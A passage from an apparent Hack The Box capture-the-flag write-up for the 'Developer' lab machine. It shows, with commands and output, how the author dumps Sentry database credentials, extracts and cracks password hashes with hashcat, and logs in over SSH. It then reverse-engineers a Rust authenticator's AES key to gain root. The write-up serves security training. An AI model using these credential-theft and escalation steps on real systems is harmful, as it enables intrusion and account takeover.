www-data@developer:~/developer_ctf$ cat /etc/sentry/sentry.conf.py
cat /etc/sentry/sentry.conf.py

# This file is just Python, with a touch of Django which means
# you can inherit and tweak settings to your hearts content.
from sentry.conf.server import *

import os.path

CONF_ROOT = os.path.dirname(__file__)

DATABASES = {
    'default': {
        'ENGINE': 'sentry.db.postgres',
        'NAME': 'sentry',
        'USER': 'sentry',
        'PASSWORD': 'SentryPassword2021',
        'HOST': 'localhost',
        'PORT': '',
    }
}

# You should not change this setting after your database has been created
# unless you have altered all schemas first
SENTRY_USE_BIG_INTS = True

# If you're expecting any kind of real traffic on Sentry, we highly recommend
# configuring the CACHES and Redis settings

###########
# General #
###########

# Instruct Sentry that this install intends to be run by a single organization
# and thus various UI optimizations should be enabled.
SENTRY_SINGLE_ORGANIZATION = True

#########
# Redis #
#########

# Generic Redis configuration used as defaults for various things including:
# Buffers, Quotas, TSDB

SENTRY_REDIS_OPTIONS = {
    'hosts': {
        0: {
            'host': '127.0.0.1',
            'port': 6379,
            'password': 'g7dRAO6BjTXMtP3iXGJjrSkz2H9Zhm0CAp2BnXE8h92AOWsPZ2zvtAapzrP8sqPR92aWN9DA207XmUTe',
        }
    }
}

#########
# Cache #
#########

# Sentry currently utilizes two separate mechanisms. While CACHES is not a
# requirement, it will optimize several high throughput patterns.

# If you wish to use memcached, install the dependencies and adjust the config
# as shown:
#
#   pip install python-memcached
#
# CACHES = {
#     'default': {
#         'BACKEND': 'django.core.cache.backends.memcached.MemcachedCache',
#         'LOCATION': ['127.0.0.1:11211'],
#     }
# }

# A primary cache is required for things such as processing events
SENTRY_CACHE = 'sentry.cache.redis.RedisCache'

#########
# Queue #
#########

# See https://docs.getsentry.com/on-premise/server/queue/ for more
# information on configuring your queue broker and workers. Sentry relies
# on a Python framework called Celery to manage queues.

BROKER_URL = 'redis://localhost:6379'

###############
# Rate Limits #
###############

# Rate limits apply to notification handlers and are enforced per-project
# automatically.

SENTRY_RATELIMITER = 'sentry.ratelimits.redis.RedisRateLimiter'

##################
# Update Buffers #
##################

# Buffers (combined with queueing) act as an intermediate layer between the
# database and the storage API. They will greatly improve efficiency on large
# numbers of the same events being sent to the API in a short amount of time.
# (read: if you send any kind of real data to Sentry, you should enable buffers)

SENTRY_BUFFER = 'sentry.buffer.redis.RedisBuffer'

##########
# Quotas #
##########

# Quotas allow you to rate limit individual projects or the Sentry install as
# a whole.

SENTRY_QUOTAS = 'sentry.quotas.redis.RedisQuota'

########
# TSDB #
########

# The TSDB is used for building charts as well as making things like per-rate
# alerts possible.

SENTRY_TSDB = 'sentry.tsdb.redis.RedisTSDB'

###########
# Digests #
###########

# The digest backend powers notification summaries.

SENTRY_DIGESTS = 'sentry.digests.backends.redis.RedisBackend'

################
# File storage #
################

# Any Django storage backend is compatible with Sentry. For more solutions see
# the django-storages package: https://django-storages.readthedocs.org/en/latest/

SENTRY_FILESTORE = 'django.core.files.storage.FileSystemStorage'
SENTRY_FILESTORE_OPTIONS = {
    'location': '/tmp/sentry-files',
}

##############
# Web Server #
##############

# If you're using a reverse SSL proxy, you should enable the X-Forwarded-Proto
# header and uncomment the following settings
# SECURE_PROXY_SSL_HEADER = ('HTTP_X_FORWARDED_PROTO', 'https')
# SESSION_COOKIE_SECURE = True
# CSRF_COOKIE_SECURE = True

# If you're not hosting at the root of your web server, and not using uWSGI,
# you need to uncomment and set it to the path where Sentry is hosted.
# FORCE_SCRIPT_NAME = '/sentry'

SENTRY_WEB_HOST = '127.0.0.1'
SENTRY_WEB_PORT = 9000
SENTRY_WEB_OPTIONS = {
    # 'workers': 3,  # the number of gunicorn workers
    # 'secure_scheme_headers': {'X-FORWARDED-PROTO': 'https'},
}

###############
# Mail Server #
###############

# For more information check Django's documentation:
# https://docs.djangoproject.com/en/1.6/topics/email/

EMAIL_BACKEND = 'django.core.mail.backends.smtp.EmailBackend'

EMAIL_HOST = 'localhost'
EMAIL_HOST_PASSWORD = ''
EMAIL_HOST_USER = ''
EMAIL_PORT = 25
EMAIL_USE_TLS = False

# The email address to send on behalf of
SERVER_EMAIL = 'root@localhost'

# If you're using mailgun for inbound mail, set your API key and configure a
# route to forward to /api/hooks/mailgun/inbound/
MAILGUN_API_KEY = ''

```

We can see the Sentry database credentials:
```python
DATABASES = {
    'default': {
        'ENGINE': 'sentry.db.postgres',
        'NAME': 'sentry',
        'USER': 'sentry',
        'PASSWORD': 'SentryPassword2021',
        'HOST': 'localhost',
        'PORT': '',
    }
}
```

Let's write a ```python``` script to query this DB:
```python
import psycopg2
import sys

if sys.argc > 1:
	query = sys.argv[1]
else: #Get all tables
	query = "select relname from pg_class where relkind='r' and relname !~ '^(pg_|sql_)';"
	
conn = psycopg2.connect(host='localhost', dbname='sentry',
                        user='sentry', password='SentryPassword2021')
cursor = conn.cursor()

cursor.execute(query)
print(cursor.fetchall())
```

By running it we get the following tables:
```python
$ python3 pges.py
python3 pges.py
[('auth_group',), ('auth_group_permissions',), ('django_admin_log',), ('sentry_groupseen',), ('django_content_type',), ('auth_permission',), ('django_session',), ('django_site',), ('south_migrationhistory',), ('sentry_messageindex',), ('sentry_rule',), ('sentry_grouprulestatus',), ('sentry_groupasignee',), ('sentry_grouphash',), ('sentry_broadcast',), ('sentry_filtervalue',), ('sentry_messagefiltervalue',), ('sentry_project',), ('sentry_organization',), ('sentry_organizationmember',), ('auth_user',), ('sentry_option',), ('sentry_groupmeta',), ('sentry_projectoptions',), ('sentry_groupbookmark',), ('sentry_helppage',), ('sentry_organizationmember_teams',), ('sentry_apikey',), ('sentry_useroption',), ('sentry_filterkey',), ('sentry_lostpasswordhash',), ('sentry_projectkey',), ('sentry_team',), ('sentry_authidentity',), ('sentry_authprovider_default_teams',), ('sentry_authprovider',), ('sentry_activity',), ('sentry_releasefile',), ('sentry_file',), ('sentry_message',), ('sentry_grouptagkey',), ('sentry_organizationaccessrequest',), ('sentry_groupedmessage',), ('sentry_eventmapping',), ('sentry_auditlogentry',), ('sentry_savedsearch',), ('sentry_userreport',), ('sentry_groupemailthread',), ('sentry_eventuser',), ('sentry_release',), ('sentry_broadcastseen',), ('sentry_groupsnooze',), ('sentry_organizationoptions',), ('sentry_fileblob',), ('sentry_groupresolution',), ('social_auth_usersocialauth',), ('sentry_fileblobindex',), ('nodestore_node',), ('social_auth_nonce',), ('social_auth_association',)]

```

Let's observe ```auth_user``` table:
```python
$ python3 pges.py "select * from auth_user"
python3 pges.py "select * from auth_user"
[('pbkdf2_sha256$12000$MqrMlEjmKEQD$MeYgWqZffc6tBixWGwXX2NTf/0jIG42ofI+W3vcUKts=', datetime.datetime(2021, 11, 12, 23, 30, 58, 619467, tzinfo=psycopg2.tz.FixedOffsetTimezone(offset=0, name=None)), 5, 'jacob@developer.htb', 'Jacob Taylor', 'jacob@developer.htb', True, True, True, datetime.datetime(2021, 5, 22, 18, 53, 9, 750524, tzinfo=psycopg2.tz.FixedOffsetTimezone(offset=0, name=None)), False), ('pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+mgRb8ZL8othIs32aGmqahx1rGI=', datetime.datetime(2021, 5, 22, 21, 17, 53, 80994, tzinfo=psycopg2.tz.FixedOffsetTimezone(offset=0, name=None)), 1, 'karl@developer.htb', 'Karl Travis', 'karl@developer.htb', True, True, True, datetime.datetime(2021, 5, 22, 16, 56, 29, 249263, tzinfo=psycopg2.tz.FixedOffsetTimezone(offset=0, name=None)), False)]
```

We can see the encrypted password of ```karl@developer.htb``` which is ```pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+mgRb8ZL8othIs32aGmqahx1rGI=```.

Let's decrypt it using ```hashcat```:
```console
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ hashcat -m 10000 hash rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 5853/5917 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921504
* Keyspace..: 14344385

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => s


pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+mgRb8ZL8othIs32aGmqahx1rGI=:insaneclownposse
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+m...x1rGI=
Time.Started.....: Sat Nov 13 01:34:37 2021 (23 secs)
Time.Estimated...: Sat Nov 13 01:35:00 2021 (0 secs)
Guess.Base.......: File (/home/user/Desktop/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2545 H/s (14.83ms) @ Accel:192 Loops:512 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 59136/14344385 (0.41%)
Rejected.........: 0/59136 (0.00%)
Restore.Point....: 58368/14344385 (0.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:11776-11999
Candidates.#1....: kokokoko -> 230482

Started: Sat Nov 13 01:34:32 2021
Stopped: Sat Nov 13 01:35:02 2021
```

And we can see the password ```pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+mgRb8ZL8othIs32aGmqahx1rGI=:insaneclownposse```.

Let's use the password ```insaneclownposse``` to SSH login as ```karl```:
```console
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ ssh karl@developer.htb
The authenticity of host 'developer.htb (10.10.11.103)' can't be established.
ECDSA key fingerprint is SHA256:m6oQKU5P7lgJEyBzooC7ZGxCy1cFWZeZIGoGVwnsEn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'developer.htb,10.10.11.103' (ECDSA) to the list of known hosts.
karl@developer.htb's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 12 Nov 23:46:17 UTC 2021

  System load:  0.0               Processes:             269
  Usage of /:   77.9% of 5.84GB   Users logged in:       0
  Memory usage: 47%               IPv4 address for eth0: 10.10.11.103
  Swap usage:   14%

  => There is 1 zombie process.


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Jul 22 20:38:33 2021 from 10.10.14.6
karl@developer:~$ cat user.txt 
0b30be4bac228bb9da6d17c1e03fac76
```

And we get the user flag ```0b30be4bac228bb9da6d17c1e03fac76```.

### Root

By running ```sudo -l``` we get:
```console
karl@developer:~$ sudo -l
[sudo] password for karl: 
Matching Defaults entries for karl on developer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karl may run the following commands on developer:
    (ALL : ALL) /root/.auth/authenticator
```

Let's run it:
```console
karl@developer:~$ sudo /root/.auth/authenticator
Welcome to TheCyberGeek's super secure login portal!
Enter your password to access the super user: 
aaaaaaaa
You entered a wrong password!
```

By analyzing the ```RUST``` binary using [Ghidra](https://github.com/NationalSecurityAgency/ghidra), [IDA](https://hex-rays.com/ida-free/) and [binaryninja](https://binary.ninja/) we can see the following line from ```authenticator:main``` function:



```rust
...
000078b5  int128_t var_118 = *data_4a030
000078c4  int128_t var_108 = *data_4a040
000078d6  int128_t* rax_2 = __rust_alloc(0x20, 1)
00007e1a  if (rax_2 == 0)
00007e1a      alloc::alloc::handle_alloc_error::h42f533e7a939dec9()
00007e1a      noreturn
000078ef  *rax_2 = *data_4a000
000078f9  *(rax_2 + 0x10) = *data_4a010
00007905  *data_4a020
00007936  int64_t rax_3
00007936  void* rdx_1
00007936  rax_3, rdx_1 = crypto::aes::ctr::h2e946f13694abc7d(0, &var_118, 0x10, &var_108, 0x10)

...
```

```var_118``` is ```*data_4a030``` which is:



```asm
0004a030  int128_t data_4a030 = 
0004a030  a3 e8 32 34 5c 79 91 61 9e 20 d4 3d be f4 f5 d5   

```

And ```var_108``` is ```*data_4a040``` which is:
```asm
0004a040  int128_t data_4a040 = 
0004a040  76 1f 59 e3 d9 d2 95 9a a7 98 55 dc 06 20 81 6a 
```

We know that is AES encryption and according to the [documentation]([crypto::aes::ctr](https://docs.rs/rust-crypto/0.2.36/crypto/aes/fn.ctr.html)) ```var_118``` is the KEY and ```var_108``` is the IV.

The encrypted buffer located on:
```asm
000078ef  *rax_2 = *data_4a000
000078f9  *(rax_2 + 0x10) = *data_4a010
```

First, It's take the bytes from ```*data_4a000```:
```asm
0004a000  int128_t data_4a000 = 
0004a000  fe 1b 25 f0 80 6a 97 ca 78 80 fd 58 fc 5c 20 23 
```

And then takes another bytes from ```*data_4a010```:
```asm
0004a010  int128_t data_4a010 = 
0004a010  6c a2 db d0 e5 02 b5 fa eb c0 af 3a 9f 27 15 2c 
```

We can see the second part will be on ```*(rax_2 + 0x10)``` so let's append it:
```asm
fe 1b 25 f0 80 6a 97 ca 78 80 fd 58 fc 5c 20 23 6c a2 db d0 e5 02 b5 fa eb c0 af 3a 9f 27 15 2c 
```

Now we have the AES Key,IV and the encrypted buffer, Let's use [CyberChef](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'Hex','string':'a3e832345c7991619e20d43dbef4f5d5'%7D,%7B'option':'Hex','string':'76%201f%2059%20e3%20d9%20d2%2095%209a%20a7%2098%2055%20dc%2006%2020%2081%206a'%7D,'CTR','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=ZmUgMWIgMjUgZjAgODAgNmEgOTcgY2EgNzggODAgZmQgNTggZmMgNWMgMjAgMjMgNmMgYTIgZGIgZDAgZTUgMDIgYjUgZmEgZWIgYzAgYWYgM2EgOWYgMjcgMTUgMmM) To decrypt the encrypted buffer:



And the password is: ```RustForSecurity@Developer@2021:)```, Let's use it:
```console
karl@developer:~$ sudo /root/.auth/authenticator 
[sudo] password for karl: 
Welcome to TheCyberGeek's super secure login portal!
Enter your password to access the super user: 
RustForSecurity@Developer@2021:)
You have successfully authenticated
Enter your SSH public key in now:
ssh-rsa AAAAB...<YOUR_SSH_PUBLIC_KEY>...KMw3x47EoEnVr7sGyRTGtZ4nPfN4ebrTHV9c= evyatar@parrot
You may now authenticate as root!
```

Let's use our SSH private key to get the root flag:
```console
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ ssh -i id_rsa root@developer.htb
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 16 Nov 22:11:06 UTC 2021

  System load:  0.0               Processes:             250
  Usage of /:   78.0% of 5.84GB   Users logged in:       1
  Memory usage: 20%               IPv4 address for eth0: 10.10.11.103
  Swap usage:   14%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Aug 17 12:53:37 2021
root@developer:~# id && hostname && whoami
uid=0(root) gid=0(root) groups=0(root)
developer
root
root@developer:~# cat root.txt
291ebb38945adca7d9119d8e204d3fcb
```

And we get the root flag ```291ebb38945adca7d9119d8e204d3fcb```.

